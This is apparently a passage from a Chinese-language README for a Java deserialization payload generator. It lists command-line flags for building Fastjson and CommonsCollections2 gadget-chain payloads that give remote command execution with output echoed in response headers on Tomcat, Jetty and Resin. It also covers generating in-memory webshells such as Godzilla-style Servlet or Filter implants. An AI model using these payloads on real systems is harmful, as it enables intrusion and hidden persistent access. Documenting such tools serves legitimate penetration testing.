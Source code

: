 eg. `-g Fastjson -e JavaClass -jht Custom -jfp testms`

## Rce 回显

通过线程遍历 request 对象实现回显目前测试如下

|        | Version          | Auto Version (正在针对实际环境优化中..) |
|--------|------------------|------------------------------|
| Tomcat | 6-9              | 5-11                         |
| Spring |                  |                              |
| Resin  | [4.0.52, 4.0.66] |                              |
| Jetty  |                  |                              |

+ `-e JavaClass -jht RceEcho` 指定为 Rce 回显
+ `-mw` 参数指定中间件
+ `-jt` 指定回显的实现方式，可通过 `AutoFind` 使用线程遍历寻找 request（实测优化中..)

可选参数默认都是随机生成的，也可以指定

- `-fheader` 指定接收命令的 header key
- `-frheader` 指定命令输出在哪个响应头中，因为实际测试发现 body 很多时候是没法回显了，所以干脆输出到头

```
-e JavaClass
-jht RceEcho
-mw [Tomcat | Jetty ...]
-jt [AutoFind | Default]

-fheader
-frheader
```

eg. `-g commonscollections2 -e JavaClass -jht RceEcho -mw Tomcat -o base64`

![image-20240422001459366](attachments/image-20240422001459366.png)

## 内存马

内存马这部分的内容还没经过实际环境测试，采用 Loader + Proxy 的方式编写

```
-e JavaClass
-jht MemShell
-mw [Tomcat | Jetty ...]
-ms [Servlet | Listener | Filter ...]
-msf [Exec | Godzilla ...]
-jt [AutoFind]
-mt [Raw]

-fname
-fheader
-frheader
-fpath
-fkey
-fpass
-flk
```